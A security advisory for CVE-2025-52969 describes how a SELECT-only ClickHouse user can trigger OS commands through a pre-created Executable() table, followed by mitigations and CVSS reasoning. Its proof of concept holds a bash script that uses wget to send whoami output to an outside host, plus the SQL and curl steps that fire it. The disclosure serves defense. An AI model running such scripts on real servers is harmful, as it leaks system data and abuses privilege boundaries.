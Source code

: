 ## ClickHouse Executable Table Abuse by Low Privilege User

#### CVE ID: [CVE-2025-52969](https://nvd.nist.gov/vuln/detail/CVE-2025-52969)
#### Date: 2025-06-19  
#### Author: Seth Kraft  
#### Vendor Homepage: https://clickhouse.com/  
#### Vendor Changelog: https://github.com/ClickHouse/ClickHouse/blob/master/CHANGELOG.md  
#### Software Link: https://github.com/ClickHouse/ClickHouse  
#### Version: 25.7.1.557 (official build)  
#### Tested On: ClickHouse 25.7.1 (default configuration, Ubuntu 24.04)
#### CWE: CWE-250 (Execution with Unnecessary Privileges)  
#### CVSS Base Score: 7.7 
#### Vector String: `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:N/I:H/A:N` 
#### Type: Authenticated OS Command Execution via Executable Table
---

## Authorization
**For research and authorized testing only.** Please do not use against systems without permission.

The issue was reviewed by the ClickHouse team and explicitly approved public disclosure of this write-up.

---

## Summary

ClickHouse allows table definitions using the `Executable()` engine, which runs system-level commands on `SELECT`. 

A low-privileged user with only `SELECT` rights can trigger these commands if an `Executable()` table is pre-created by a higher-privileged user. 

This enables authenticated OS command execution resulting in a privilege escalation vector.

---
## Details

ClickHouse’s `Executable` table engine allows tables to be backed by the output of shell scripts. 

```sql
CREATE TABLE rce_test (
    output String
) ENGINE = Executable('/var/lib/clickhouse/user_scripts/leak.sh', 'TSV');
```

Each `SELECT` query against this table executes the referenced script on the server.

---

## Proof of Concept

#### 1. **Prepare Bash Script For Abuse**

As a privileged user, create a bash script in `/var/lib/clickhouse/user_scripts/` that will later be abused by a low privileged user.

##### Script Name: `leak.sh`
```bash
#!/bin/bash
wget -q http://example.com?data=$(whoami)
```
> Note: This script will leak the `whoami` result to an external host when executed.

---

#### 2. **Create Executable Table**

Create the following table in the database as a privileged user.  This table will later be abused by the low privileged user.

```sql
CREATE TABLE rce_test (
    output String
) ENGINE = Executable('/var/lib/clickhouse/user_scripts/leak.sh', 'TSV');
```

---

#### 3. **Create Low-Privileged User**

```sql
CREATE USER lowpriv IDENTIFIED BY 'p@ssw0rd';
GRANT SELECT ON *.* TO lowpriv;
```

#### 4. Verify Low Privilege User Permissions:

```sql
SHOW GRANTS FOR lowpriv;
```

Expected output:

```text
GRANT SELECT ON *.* TO lowpriv
```
![image](https://github.com/user-attachments/assets/a69ea771-8f46-4723-aad3-b0e9f5888ae7)

---

#### 4. **Trigger Execution as Low-Privileged User**

```bash
curl 'http://localhost:8123/?user=lowpriv&password=p%40ssw0rd&query=SELECT+*+FROM+rce_test;'
```
> Note: URL encoding was used due to a special character in the password field

The external host will receive a request — proving that `lowpriv` was able to trigger OS-level execution via `SELECT` query.
![Screenshot 2025-06-18 234909](https://github.com/user-attachments/assets/b65fc5a5-3bca-40a6-8a41-9c93d2458e8f)

---

### Impact

* **Vulnerability Type:** Execution with Unnecessary Privileges (CWE-250).
* **Who Is Affected:** Environments that use `Executable()` tables and allow `SELECT` access broadly (including BI/reporting users).
* **Impact:** Authenticated users with no command execution or write access can still leverage pre-created command definitions.

---

### Mitigation / Recommendation

* **Restrict access** to any `Executable()` tables via granular `GRANT` controls — avoid granting `SELECT` on these objects to untrusted users.
* **Avoid creating `Executable()` tables** that point to sensitive or impactful scripts unless absolutely necessary.
* **Monitor and audit** access to the `user_scripts` directory and `Executable()` table usage.
* Consider adding a **configuration flag or privilege check** in ClickHouse to restrict execution of `Executable()` tables to specific roles.

Until stricter controls are implemented upstream, the burden of protection falls on administrative hygiene and access control discipline.

---

## Disclosure Timeline

* **2025-06-19:** Researcher reported to ClickHouse via Github Security Report
* **2025-06-19:** ClickHouse responded, dismissing the issue as intended behavior — explicitly permitting disclosure
* **2025-06-19:** Researcher initiated public disclosure and requested CVE assignment
* **2025-06-23:** [CVE-2025-52969](https://nvd.nist.gov/vuln/detail/CVE-2025-52969) was assigned CVSS 2.8 with disputed tag
* **2025-06-23:** Researcher notified Clickhouse of CVE assignment
* **2025-06-23:** ClickHouse clarified a feature flag ticket was created for this effort to enhance security


## Estimated Base Score:

**7.7 (High)**


## Estimated CVSS Vector
```
CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:N/I:H/A:N
```

## Explanation of Each Metric

| Metric                        | Value           | Justification                                                                                                        |
| ----------------------------- | --------------- | -------------------------------------------------------------------------------------------------------------------- |
| **AV: Attack Vector**         | **N (Network)** | The `low-priv` user can trigger the attack via a networked `SELECT` query (e.g., HTTP or native client).               |
| **AC: Attack Complexity**     | **L (Low)**     | Any user with `SELECT` permissions can exploit the flaw given a preexisting `Executable()` table. |
| **PR: Privileges Required**   | **L (Low)**     | The attacker only needs basic `SELECT` privileges — no CREATE, INSERT, or administrative access.                       |
| **UI: User Interaction**      | **N (None)**    | No user interaction is required to exploit this vulnerability.                                                       |
| **S: Scope**                  | **C (Changed)** | The attack breaks privilege boundaries — `SELECT` only users can trigger code authored by higher-privileged users.     |
| **C: Confidentiality Impact** | **N (None)**    | No sensitive data is directly exposed as a result of exploitation.                                                   |
| **I: Integrity Impact**       | **H (High)**    | The attacker can execute unauthorized system commands, leading to logic execution under elevated trust.    |
| **A: Availability Impact**    | **N (None)**    | No service disruption or DoS impact is inherently caused by this exploit.                                            |

---

